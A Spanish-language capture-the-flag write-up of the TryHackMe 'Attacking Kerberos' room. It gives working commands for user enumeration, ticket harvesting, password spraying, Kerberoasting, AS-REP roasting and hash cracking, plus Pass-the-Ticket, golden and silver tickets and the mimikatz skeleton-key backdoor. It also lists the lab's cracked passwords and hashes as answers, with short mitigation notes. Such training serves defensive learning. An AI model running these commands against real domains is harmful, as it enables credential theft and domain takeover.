

# Attacking Kerberos



Maquinas que vamos a utilizar Kali Linux y https://tryhackme.com/room/attackingkerberos

Mi IP: `10.21.203.172`

```bash
ifconfig
```


IP maquina victima: `10.10.237.124`


---

- Enumeramos con nmap
    
    ```bash
    sudo nmap -p- -sS -sV -sC --open -min-rate 5000 -n -vvv -Pn 10.10.237.124
    ```
    
    
    
    - Servicios detectados
        
        **53/tcp** → DNS (posible para *zone transfer*).
        
        **88/tcp** → (No lo listó nmap explícitamente, pero está implícito porque hay Kerberos)
        
        **135, 139, 445** → MSRPC, SMB.
        
        **3268, 3269** → LDAP global catalog.
        
        **389/636 (LDAP)** no aparecen, pero tenemos el **3268** que cumple similar.
        
        **3389** → RDP.
        
        **5985** → WinRM (posible acceso remoto si tenemos credenciales).
        
        **464** → kpasswd (Kerberos password change).
        
        **Domain:** `CONTROLLER.local`
        
        **DC Hostname:** `CONTROLLER-1.CONTROLLER.local`
        

- Modificamos el archivo **/etc/hosts** con el nombre del dominio para que los ataques funcionen
    
    ```bash
    sudo nano /etc/hosts
    ```
    
    Añadimos la siguiente linéa:
    
    `10.10.145.20  CONTROLLER.local  CONTROLLER-1`
    
    
    
    <aside>
    💡
    
    Explicación:
    
    - `CONTROLLER.local` es el dominio AD.
    - `CONTROLLER-1` es el hostname del DC (lo vimos en tu nmap).
    
    De este modo, cuando uses herramientas como `kerbrute`, `GetNPUsers.py`, `secretsdump.py`, etc., funcionarán porque resolverán correctamente el dominio.
    
    </aside>
    

- Nos descargamos el archivo User.txt que nos dan en la Room

---

## Enumeración con Kerbrute

La **enumeración con Kerbrute** es una técnica que se emplea para identificar usuarios válidos en un entorno de Active Directory (AD) utilizando la herramienta Kerbrute y el protocolo de autenticación Kerberos.

- Vamos a enviar solicitudes de pre-autenticación Kerberos para los usuarios listados en **`user.txt`**
    
    ```bash
     kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
    ```
    
    
    
    - La opción **`userenum`** indica que se va a hacer **enumeración de usuarios válidos** en el dominio, no fuerza bruta de contraseñas.
    - **`-dc CONTROLLER.local`** especifica el controlador de dominio (Domain Controller) al que se envían las peticiones.
    - **`d CONTROLLER.local`** indica el dominio de Active Directory.
    - **`user.txt`** es un archivo que contiene una lista de nombres de usuario que se quieren verificar en el dominio.

- **Responda las siguientes preguntas**
    
    ¿Cuántos usuarios totales enumeramos?
    
    `10`
    
    ¿Cuál es el nombre de la cuenta de servicio SQL?
    
    `SQLService`
    
    ¿Cuál es el segundo nombre de cuenta de "máquina"?
    
    `Machine2`
    
    ¿Cuál es el tercer nombre de cuenta de "usuario"?
    
    `User3`
    

---

## **Recolección y fuerza bruta de tickets Kerberos con Rubeus**

- La Room nos da nuevos datos y nos pide que usemos Rubeus
    
    <aside>
    💡
    
    - IP víctima: `10.10.237.124`
    - Usuario: `Administrator`
    - Password: `P@$$W0rd`
    - Dominio: `controller.local`
    </aside>
    
- Me conecto por SSH con las credenciales que nos han dado.
    
    ```bash
    ssh [Administrator@](./imagenes/AttackingKerberos/mailto:Administrator@10.10.145.20)10.10.237.124
    ```
    
    
    
    ### **Harvesting Tickets**
    
    Este ataque “escucha” y captura **TGTs (Ticket Granting Tickets)** que circulan cada cierto tiempo.
    

- Nos movemos a la carpeta **C:\Users\Administrator\Downloads** y ejecutamos Rubeus.exe que se encuentra alli en esta Room.
    
    
    `cd C:\Users\Administrator\Downloads`
    
    `.\Rubeus.exe harvest /interval:30`
    
    
    
    Lo paramos cuando queramos pulsando `CTRL+C`
    
    - Si queremos ver los tickets capturados:
        
        `.\Rubeus.exe triage`
        
        
        
        - **User** (a quién pertenece)
        - **Service** (para qué servicio)
        - **Start/End Time** (validez del ticket)
        - El **LUID** (identificador en sesión)
        
    - Imprime en consola el ticket en Base64
        
        `.\Rubeus.exe dump`
        
        
        

- Podemos guardarlos metiendo la salida de dump a un archivo
    
    `.\Rubeus.exe dump > tickets.txt`
    
- También podemos guardarlos en formato `.kirbi` para reutilizarlo (por ejemplo en un **Pass-The-Ticket**).
`.\Rubeus.exe dump /nowrap /outfile:"**C:\Users\Administrator\Downloads**\ticket.kirbi"`

### **Password Spraying con Rubeus**

Este ataque prueba **una contraseña contra muchos usuarios** (en lugar de muchas contraseñas contra un usuario, que sería brute force).

`.\Rubeus.exe brute /password:Password1 /noticket` 


El usuario **`Machine1`** tiene la contraseña **`Password1`**

- Responda las siguientes preguntas
    
    ¿Para qué administrador de dominio obtenemos un ticket al recolectar tickets?
    
    `Administrator`
    
    ¿Para qué controlador de dominio obtenemos un vale al recopilar vales?
    
    **`CONTROLLER-1`**
    

---

## Kerberoasting con Rubeus & Impacket

Kerberoasting permite a un usuario solicitar un ****Tickets de servicio para cualquier servicio con un SPN registrado y, a continuación, usar ese vale para descifrar la contraseña del servicio. Si el servicio tiene un SPN registrado, puede ser Kerberoastable, sin embargo, el éxito del ataque depende de qué tan fuerte sea la contraseña y si es rastreable, así como de los privilegios de la cuenta de servicio descifrada.

 

### **Método 1 - Rubeus: Kerberoasting con Rubeus**

- Nos movemos al directorio Downloads donde se encuentra el programa Rubeus en esta maquina.
    
    `cd Downloads`
    
    
    
    `Rubeus.exe kerberoast`
    
    
    
    Este ataque es muy efectivo porque no genera bloqueos de cuentas y puede aprovechar contraseñas débiles en servicios antiguos o mal gestionados.
    
- Copiamos los hash en un archivo txt en mi caso hash.txt
    
    ```bash
    nano hash.txt 
    ```
    
    
    

Puede ser que al copiar los hash los copie en varias líneas.  Formateamos para que nos quede cada hash en una linea.

- Descargamos el archivo de palabras que nos dan el la Room
- Usamos hashcat para descifrar los hash
    
    ```bash
    hashcat -m 13100 -a 0 hash_formateado.txt Pass.txt
    ```
    
    
    
    HTTPService: `Summer2020`
    
    SQLService: `MYPassword123#`
    

### **Método 2 - Impacket: Kerberoasting con Impacket**

- Nos movemos a **/usr/share/doc/python3-impacket/examples/** donde se encuentra el archivo  GetUserSPNs.py
    
    `cd /usr/share/doc/python3-impacket/examples/`
    
    `dir`
    
    
    

- Usamos GetUserSPNs.py para  volcará el hash Kerberos para todas las cuentas kerberoastables que pueda encontrar en el dominio. Pero en esta ocasión de forma remota.
    
    ```bash
    sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.237.124 -request
    ```
    
    
    

- El procedimiento para descifrar estos hash seria el mismo que vimos anteriormente.
    
    ```bash
    hashcat -m 13100 -a 0 hash_formateado.txt Pass.txt
    ```
    
    - Responda las siguientes preguntas
        
        ¿Qué es la contraseña de servicio HTTPS?
        
        `Summer2020`
        
        ¿Qué es la contraseña de SQLService?
        
        `MYPassword123#`
        

### Mitigación de Kerberoasting

- Contraseñas de servicio seguras: si las contraseñas de la cuenta de servicio son seguras, el kerberoasting será ineficaz
- No hacer que las cuentas de servicio sean administradores de dominio: las cuentas de servicio no necesitan ser administradores de dominio, el kerberoasting no será tan efectivo si no convierte las cuentas de servicio en administradores de dominio.

---

## **AS-REP Roasting con Rubeus**

AS-REP Roasting vuelca los hashes krbasrep5 de las cuentas de usuario que tienen deshabilitada la autenticación previa de Kerberos. A diferencia de Kerberoasting, estos usuarios no tienen que ser cuentas de servicio, el único requisito para poder tostar AS-REP a un usuario es que el usuario debe tener deshabilitada la autenticación previa.

- Nos movemos al al carpeta **Downloads.**
    
    `cd Downloads`
    
    `Rubeus.exe asreproast`
    
    
    
    Ya tenemos los hash. Y como vemos son de oros usuarios que antes no nos había mostrado.
    
- Vamos a intentar romper estos hash. Los copiamos a un archivo txt pero insertando `23$` después de `$krb5asrep$` quedando así: `$krb5asrep$23$Admin`. Formateamos para que nos quede cada hash en una linea.
    
    
    

- Desciframos los hahs usando el **modo 18200** que es el que utiliza Rubeus AS-REP Roasting
    
    ```bash
    hashcat -m 18200 hash2.txt Pass.txt
    ```
    
    
    
    $User: `Password3`
    
    $Admin2: `P@$$W0rd2`
    
    - Responda las siguientes preguntas
        
        ¿Qué tipo de hash utiliza AS-REP Roasting?
        
        `Kerberos 5 AS-REP etype 23`
        
        ¿Qué usuario es vulnerable al tostado AS-REP?
        
        `User3`
        
        ¿Cuál es la contraseña del usuario?
        
        `Password3`
        
        ¿Qué administrador es vulnerable al tostado AS-REP?
        
        `Admin2`
        
        ¿Cuál es la contraseña del administrador?
        
        `P@$$W0rd2`
        

### Mitigaciones **AS-REP Roasting**

- Tenga una política de contraseñas seguras. Con una contraseña segura, los hashes tardarán más en descifrarse, lo que hará que este ataque sea menos efectivo
- No desactive la autenticación previa de Kerberos a menos que sea necesario, casi no hay otra manera de mitigar completamente este ataque que no sea mantener activada la autenticación previa.

---

## **Pass the Ticket con mimikatz**

Mimikatz es una herramienta de post-explotación que se usa más comúnmente para volcar credenciales de usuario dentro de una red de directorio activo, sin embargo, usaremos mimikatz para volcar un TGT de la memoria LSASS.

- Nos movemos al directorio **Downloads**
    
    `cd Downloads`
    
- Ejecutamos mimikatz
    
    `mimikatz.exe`
    
    
    
- Miramos que los privilegios que tenemos . Tiene que contestar `Privilege '20' OK`
    
    `privilege::debug`
    
    
    
- Vamos a exportar todos los ticket en formato **.kirbi** al directorio donde nos encontremos
    
    `sekurlsa::tickets /export`
    
    
    
    
    

- Para este ejercicio buscamos el ticket de administrador de krbtgt. Quizas debamos entrar u salir de mimikatz saldremos escribiendo `exit`.
    
    
    
    `[0;3e69b]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
    

- Ya podemos empezar ala lanzar el ataque. Almacenamos el Ticket en la cache. y salimos de mimikazt
    
    `kerberos::ptt [0;3e69b]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
    
    
    
    `exit`
    
- Verificamos que el Ticket esta dentro de la cache
    
    `klist`
    
    
    
    Ya tenemos los mismos derechos del ticket que estamos suplantando podemos comprobarlo de listando los recursos compartidos del administrador
    
    `dir \\10.10.237.124\admin$`
    
    
    

### **Pass the Ticket** mitigación

Hablemos del equipo azul y de cómo mitigar este tipo de ataques.

- No permita que los administradores de su dominio inicien sesión en nada excepto en el controlador de dominio: esto es algo tan simple, sin embargo, muchos administradores de dominio aún inician sesión en computadoras de bajo nivel dejando tickets que podemos usar para atacar y movernos lateralmente.

---

## Ataques de boletos dorados / plateados con mimikatz

Un boleto plateado a veces se puede usar mejor en compromisos en lugar de un boleto dorado porque es un poco más discreto. Si el sigilo y pasar desapercibido importan, entonces un boleto plateado es probablemente una mejor opción que un boleto dorado, sin embargo, el enfoque para crear uno es exactamente el mismo. La diferencia clave entre los dos vales es que un billete plateado se limita al servicio al que se dirige, mientras que un billete dorado tiene acceso a cualquier servicio Kerberos.


- Nos movemos al directorio **Downloads**
    
    `cd Downloads`
    
- Ejecutamos mimikatz
    
    `mimikatz.exe`
    
    
    

- Miramos que los privilegios que tenemos . Tiene que contestar `Privilege '20' OK`
    
    `privilege::debug`
    
    
    

- Volcamos el hash, así como el identificador de seguridad necesario para crear un Golden Ticket. Para crear un ticket plateado, se debe cambiar /name: para volcar el hash de una cuenta de administrador de dominio o una cuenta de servicio como la cuenta SQLService.
    
    `lsadump::lsa /inject /name:krbtgt`
    
    
    
    
    

- Creamos un boleto dorado / plateado
    
    `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /rc4:72cd714611b64cd4d5550cd2759db3f6 /id:500`
    
    
    
    Si es un billete dorado se utiliza un id: 500 . Si es plateado un id: 1103
    
- Hacemos que Mimikatz aplique un "parche" en memoria para desbloquear la ejecución de la consola de comandos **cmd.exe**. Aquí supuestamente se abriría otra ventana de CMD pero al estar conectado por SSH. **`misc::cmd`** abre la consola solo en entornos con GUI (interfaz gráfica)
    
    `misc::cmd` 
    
    
    

- Responda las siguientes preguntas
    
    ¿Qué es el hash NTLM de SQLService?
    
    lsadump::lsa /inject /name:SQLService
    
    `cd40c9ed96265531b21fc5b1dafcfb0a`
    
    ¿Qué es el hash NTLM del administrador?
    
    lsadump::lsa /inject /name:Administrator 
    
    `2777b7fec870e04dda00cd7260f7bee6`
    

---

## Puertas traseras Kerberos con mimikatz

Una puerta trasera Kerberos es mucho más sutil porque actúa de manera similar a un rootkit al implantarse en la memoria del bosque de dominios, lo que le permite acceder a cualquiera de las máquinas con una contraseña maestra.

La puerta trasera Kerberos funciona implantando una clave maestra que abusa de la forma en que AS-REQ valida las marcas de tiempo cifradas. Una clave maestra solo funciona con el cifrado Kerberos RC4.

El hash predeterminado para una clave maestra mimikatz es *60BA4FCADC466C7A033C178194C03DF6*, lo que hace que la contraseña -"*mimikatz*"

- Nos movemos al directorio **Downloads**
    
    `cd Downloads`
    
- Ejecutamos mimikatz
    
    `mimikatz.exe`
    
    
    

- Miramos que los privilegios que tenemos . Tiene que contestar Privilege '20' OK
`privilege::debug`
    
    
    

### **Instalación de la llave maestra con mimikatz**

- Ejecutamos el siguiente comando
    
    `misc::skeleton`
    
    
    
    Ya estaría la llave maestra . la contraseña seria : `mimikatz`
    

Las credenciales predeterminadas serán: "*mimikatz*"

ejemplo: - Ahora se podrá acceder al recurso compartido sin necesidad de la contraseña de administrador`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`

ejemplo: - acceder al directorio de Desktop-1 sin saber nunca qué usuarios tienen acceso a Desktop-1`dir \\Desktop-1\c$ /user:Machine1 mimikatz`

La clave maestra no persistirá por sí misma porque se ejecuta en la memoria, se puede programar o persistir usando otras herramientas y técnicas